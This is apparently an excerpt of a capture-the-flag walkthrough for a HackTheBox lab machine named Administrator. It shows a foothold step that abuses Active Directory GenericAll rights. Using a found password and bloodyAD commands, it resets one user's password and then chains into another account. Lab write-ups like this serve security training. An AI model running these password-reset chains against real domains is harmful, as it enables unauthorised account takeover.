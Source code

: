 ![](images/media/image8.png){width="5.828124453193351in"
height="3.7695133420822398in"}

**[USER - FOOTHOLD]{.underline}**

**1**. Use Olivia\'s account, to **change PASSWORD** of **Michael
account** (Olivia has GenericALL (FULL ACCESS) to Michael\'s account!!)

**RUN:** **bloodyAD -u \"olivia\" -p \"ichliebedich\" -d
\"Administrator.htb\" \--host \"10.10.11.42\" set password \"Michael\"
\"12345678\"**

![](images/media/image9.png){width="4.125in"
height="0.45398622047244097in"}

**2**. Use Michael\'s account, to **change PASSWORD** of **Benjamin
account**

**RUN:** **bloodyAD -u \"Michael\" -p \"12345678\" -d
\"Administrator.htb\" \--host \"10.10.11.42\" set password \"Benjamin\"
\"12345678\"**
